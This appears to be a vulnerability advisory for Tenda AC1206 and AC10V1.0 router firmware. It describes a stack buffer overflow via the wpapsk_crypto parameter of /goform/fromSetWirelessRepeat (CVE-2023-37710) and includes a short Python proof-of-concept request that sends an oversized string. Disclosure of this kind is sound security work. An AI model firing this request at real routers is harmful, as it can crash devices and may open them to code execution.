

# Tenda AC1206, AC10V1.0 Vulnerability

This vulnerability lies in the `fromSetWirelessRepeat` function which influences the latest version of Tenda AC1206 and AC10V1.0. (The latest version is [V15.03.06.23](https://down.tenda.com.cn/uploadfile/AC1206/US_AC1206V1.0RTL_V15.03.06.23_multi_TD01.zip) and [V15.03.06.47](https://down.tendacn.com/uploadfile/AC10/US_AC10V1.0re_V15.03.06.47_multi_TDE.zip))

## Vulnerability Description

There is a **stack-based buffer overflow** vulnerability in function `fromSetWirelessRepeat`.

In function `fromSetWirelessRepeat` it reads user provided parameter `wpapsk_crypto` into `wpapsk_crypto`, and this variable is passed into function `strcpy` without any length check, which may overflow the stack-based buffer `wpapsk_cryptovalue`.



So by requesting the page `/goform/fromSetWirelessRepeat`, the attacker can easily perform a **DoS** or **RCE** with carefully crafted overflow data.

## PoC

```python
import requests

IP = "10.10.10.1"
url = f"http://{IP}/goform/fromSetWirelessRepeat?"
url += "wpapsk_crypto=" + "s" * 0x200

response = requests.get(url)
```

## Timeline

* 2023-07-10: CVE ID assigned (CVE-2023-37710)
